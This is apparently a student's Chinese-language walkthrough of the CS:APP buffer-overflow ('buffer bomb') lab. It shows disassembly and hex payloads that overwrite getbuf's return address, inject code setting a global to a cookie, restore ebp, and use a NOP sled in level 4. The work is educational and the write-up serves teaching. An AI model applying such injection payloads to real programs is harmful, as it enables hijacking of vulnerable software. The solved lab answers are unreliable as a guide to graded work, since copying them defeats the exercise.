

和上次lab差不多，也是利用缓冲区溢出注入代码实现跳转。

##### level0

函数调用过程是test -> getbuf -> test(smoke、fizz...)，也就是getbuf读入执行完后要设法让程序跳转到smoke等函数。

先看重要的函数getbuf，它先存入了一个ebp，然后开辟了0x38即56B的栈空间，其中数组eax大小为0x28即40B。

```assembly
080491f4 <getbuf>:
 80491f4:	55                   	push   %ebp
 80491f5:	89 e5                	mov    %esp,%ebp
 80491f7:	83 ec 38             	sub    $0x38,%esp
 80491fa:	8d 45 d8             	lea    -0x28(%ebp),%eax
 80491fd:	89 04 24             	mov    %eax,(%esp)
 8049200:	e8 f5 fa ff ff       	call   8048cfa <Gets>
 8049205:	b8 01 00 00 00       	mov    $0x1,%eax
 804920a:	c9                   	leave  
 804920b:	c3                   	ret    
```

为了覆盖返回地址结合上一个lab很容易想到注入40B数据，再加上smoke的地址。但和之前不同的是它这里的字符串是以字符数组的方式存储到的，所以它有一个存栈底指针的寄存器ebp占了4B，因此我们要注入44B空数据，再加上smoke的返回地址：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 18 8c 04 08
```




##### level1

要读入cookie，但是没有说从rdi读入，我们把cookie直接放到getbuf的栈里即可。于是想到读入44B空数据，再读入fizz的地址，然后是参数cookie，但测试出错。

因为进入一个函数还需要把其返回地址压栈，顺序是压入返回地址、压入参数，所以在fizz地址和cookie之间还有4B的数据（随便填）用于返回地址占位。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 42 8c 04 08
00 00 00 00 91 c9 09 7e
```


##### level2

这题有一个全局变量global_value，我们需要把它的值改为cookie的值，首先找到它。它在bang函数出现，bang函数里面有进行了两个数据的比较，用gdb确定它们的值，发现0x804d100处是全局变量。

```assembly
 8048ca3:	a1 00 d1 04 08       	mov    0x804d100,%eax
 8048ca8:	3b 05 08 d1 04 08    	cmp    0x804d108,%eax
```


参考上次lab注入自己代码的方法，编写汇编修改global的值，然后跳转到bang处，反汇编后得到我们代码的地址

```assembly
   0:	c7 04 25 00 d1 04 08 	movl   $0x7e09c991,0x804d100
   7:	91 c9 09 7e 
   b:	68 9d 8c 04 08       	pushq  $0x8048c9d
  10:	c3                   	retq   
```

为了跳转到我们的代码地址即栈顶处，我们需要知道getbuf的esp寄存器值，由汇编知这个值是从eax来的，其值为0x55682f48


于是有答案：

```
c7 04 25 00 d1 04 08 91 
c9 09 7e 68 9d 8c 04 08 
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 48 2f 68 55
```


##### level3

和上题差不多，不过要把cookie设置为getbuf的返回值，同时还要恢复ebp的值，在getbuf打断点查看ebp为0x55682fa0，用这个值覆盖掉原来的ebp即40-44字节。于是有答案：

```
b8 91 c9 09 7e 68 be 8d
04 08 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
a0 2f 68 55 48 2f 68 55
```


##### level4

```
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90

90 90 90 90 90 90 90 90 90
b8 91 c9 09 7e 
8d 6c 24 28
68 3a 8e 04 08 
c3
98 2d 68 55
```


